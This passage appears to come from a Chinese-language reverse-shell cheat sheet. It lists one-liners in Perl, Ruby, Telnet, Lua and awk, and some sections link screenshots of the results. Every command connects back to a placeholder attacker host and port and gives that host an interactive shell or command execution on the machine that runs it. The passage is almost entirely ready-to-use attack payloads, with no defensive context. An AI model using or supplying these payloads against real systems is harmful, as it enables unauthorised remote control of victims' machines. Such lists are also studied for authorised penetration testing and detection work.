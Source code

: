 ``` bash
perl -e 'use Socket;$i="[LHostIp]";$p=[Port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

![Perl 反弹结果](https://pic.imgdb.cn/item/647c13a4f024cca1732743c7.png)

## Ruby 反弹一句话

``` bash
ruby -r socket -e 'exit if fork;c=TCPSocket.new("[LHostIp]","[Port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## Telnet 反弹一句话

``` bash
mknod backpipe p && telnet [LHostIp],[Port] 0<backpipe | /bin/bash 1>backpipe
```

![Telnet 反弹结果](https://pic.imgdb.cn/item/647c13a4f024cca17327443a.png)

## Lua 反弹一句话

``` bash
lua -e "local s=require('socket');local t=assert(s.tcp());t:connect('ip',port);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"
```

## awk 反弹一句话

``` bash
awk 'BEGIN{s="/inet/tcp/0/[LHostIp]/[Port]";while(1){do{s|&getline c;if(c){while((c|&getline)>0)print $0|&s;close(c)}}while(c!="exit");close(s)}}'
```

![awk 反弹结果](https://pic.imgdb.cn/item/647c13a5f024cca17327450b.png)